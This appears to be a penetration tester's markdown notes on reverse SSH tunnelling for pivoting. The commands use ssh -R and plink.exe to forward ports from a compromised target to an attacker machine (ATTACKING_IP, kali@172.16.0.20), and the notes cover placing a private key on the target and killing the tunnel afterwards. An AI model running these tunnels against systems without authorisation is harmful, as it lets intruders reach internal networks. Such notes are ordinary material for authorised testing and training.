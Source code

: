 # Reverse Connections

First we generate ssh key using ssh-keygen
then we add the pub key to ~/.ssh/authorized_keys
and add command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty before it to  disallow the ability to gain a shell on your attacking machine
```
ssh-keygen
./key
nano ~/.ssh/authorized_keys
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
PUBLIC KEY HERE
save
sudo systemctl status ssh
sudo systemctl start ssh
```
then we send our priv key to the target and connect back to use that we should destroy the key after we are done
we can do port forwarding using 

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN

or we can use the newer ssh version to reverse proxy using
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN

```

to kill the connection after we are done we can use 
```
ps aux | grep ssh
sudo kill PID
```

## Plink.exe
*Plink.exe is a version of Putty SSH client because SSH isn't on windows by default like linux we can use Pllink.exe to get our tunnel with it*

after transferring the Plink.exe binary to the target we can run our reverse connection using
```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

e.g.
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```
any keys generated with ssh-keygen won't work here so we need to convert them with **puttygen** tool after downloading the tool we can use it to generate the key
```
puttygen KEYFILE -o OUTPUT_KEY.ppk
```
the output file can be transferred  to the target and work exact same way as in linux  
